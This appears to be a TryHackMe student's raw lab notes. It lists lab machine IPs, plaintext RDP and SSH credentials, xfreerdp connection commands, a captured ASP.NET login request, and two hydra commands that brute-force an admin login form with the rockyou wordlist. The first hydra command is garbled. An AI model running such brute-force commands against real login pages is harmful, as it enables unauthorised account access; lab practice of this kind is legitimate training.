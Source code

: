 IP Address: **10.10.49.23**

Username: **cmnatic**

Password: **yararules!**

SSH Port: **22**

`rdesktop -u username -f IP`

xfreerdp
best rdp soffware


xfreerdp /u:Analysis /p:Tryhackme123! /v:10.10.140.138 
Username: Administrator

Password: BHN2UVw0Q
xfreerdp /u:Administrator /p:BHN2UVw0Q /v:10.10.214.145



http://10.10.180.60/Account/login.aspx?ReturnURL=%2fadmin%2f

hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 
10.10.214.145 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.180.60
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 754
Origin: http://10.10.180.60
DNT: 1
Connection: close
Referer: http://10.10.180.60/Account/login.aspx?ReturnURL=%2fadmin%2f
Upgrade-Insecure-Requests: 1

__VIEWSTATE=E5YPEg0DkjC%2B5ayJFm%2FBcd0cqk4g9KD9iZ0vHNNYHDQcaV2PMJz1s05zinB94MMBUS0qRC1pXgEuGVGqGPjaR6%2FMYnR52S9HjZ8n7lAHuT0%2BABYffLk5r%2FqXO6Jdtr7Kr09CFZV5qjTctiVb%2FgGqIVb6aIeeloG093tnWWsiNfd97M8wctRqGPyLXbFGqpwZcJT8fjGomlzV9ZlfHOED40TURbh0NCvPJG2zpb37n8wcXGrBJPc5nZLI5PI9ayl3WT%2B%2FUk5fKv7A9kvT4A8rUxCAID9QPPcmlozPwntjdbXy2vjWiD4jgrBUOvnarg%2FW%2BH9vsQTtUWrJf2tfDO5BBBa9xP4O6yY4E0tWbBfpS96sLN8q&__EVENTVALIDATION=ePsk74eOlQvDKNJ5KrhTGuoeZ0FPm2aD4QMx7BXsr22%2FHnU%2FBTCT2wv2oUo7edqq2tZd1j%2FMyMEyZo1FhKVpCxq%2BEWHipYNWVlCq7QaIBP1UFy8yKa27j%2FGRIB0arrkjRZyKgZd4vmXSoc498hBOfrMjfu1w2yomnnC6YuOGWb5Di2GB&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^www^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in"


hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 10.10.214.145 "/http-post-form “/Account/login.aspx:__VIEWSTATE=X%2Fz3Mlty62z5Y8aCAMiDaFe%2B9SKdcf9226N9xQ01mq8rP30ZJRq5G7EwUwzkz3n9rzEXVYmhE%2BBRVjtKpusOG%2BclmdkWeaN46I%2FnUYO4uzqLV1jka6wmsfIKFhEdwy3oeh7DlUj8VUnfKjmAAhl6QNzNfhdXj13D13LFPh9wtvnHyBjYmqMzxEvWAL1mwoNVWxVTCra5DFu1l1gLSNfWkrXLzo7bQdYCnhV2xxpLa1JgaLGsxDUS3h25czmU7g3MCciYGEAgFFxv%2FATyhDiIQBlHJ154WMYnL52cM7MR81pZZNgK32WdRwy%2FvA2wQvi6YrjkLrEZsiepbdoKvQHZ6qqyPxH0j6K9BI3%2FlKKiT2cfS1Nm&__EVENTVALIDATION=tbMSuN0fZZiffwoWR2502NvWLKSDwmGhtVGh9KB%2FIf6hdNVf9UjamY4uMbjjKFAInyLeK%2Fz5%2ByO1yrvO44pVUZTCisUdcMS2k59fRgxCJ9mU9waI%2BiHVLyhzWS22LViSMdGRUhHURt84Cg9MNCxXY172nJrVA5WtJ7PavxhpRlqV8Wi3&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed” -t 64